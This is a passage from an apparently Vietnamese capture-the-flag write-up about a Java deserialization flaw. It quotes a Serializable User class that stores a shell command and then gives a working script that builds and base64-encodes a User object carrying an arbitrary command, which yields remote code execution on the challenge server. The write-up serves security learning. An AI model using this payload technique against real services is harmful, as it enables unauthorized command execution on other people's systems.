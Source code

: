 ```java
class User implements Serializable
{
    String name;
    String command;

    public User(String name)
    {
        this.name = name;
        this.command = "date";
    }
```

Wait, command để thực thi mà lại để ở object User? VÀ OBJECT ĐÓ LẠI ĐƯỢC LẤY TỪ USER INPUT MÀ KHÔNG HỀ SANITIZE? Đấy đúng là công thức để tạo ra một lỗ hổng RCE/ACE mà.

Bằng cách tạo một serialized `User` object với `this.command` được thay đổi thành giá trị mình muốn, mình đã thực thi thành công bất kì lệnh nào mình muốn.

```java
class App {
    public static void main(String[] args) throws Exception {
        try {
            // Serialization
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            User A = new User("CTF_BadAimWeeb");
            A.command = "<điền lệnh muốn chạy vào đây>";
            ObjectOutputStream oos = new ObjectOutputStream(bos);
            oos.writeObject(A);

            Base64.Encoder enc = Base64.getEncoder();
            byte[] encbytes = enc.encode(bos.toByteArray());

            // output the serialized object
            System.out.println("");
            System.out.println(new String(encbytes));

            bos.close();
            oos.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

![image_witt_maliciouscode](/assets/2022-10-12-w1-freshman-ctf-writeup/5.png)
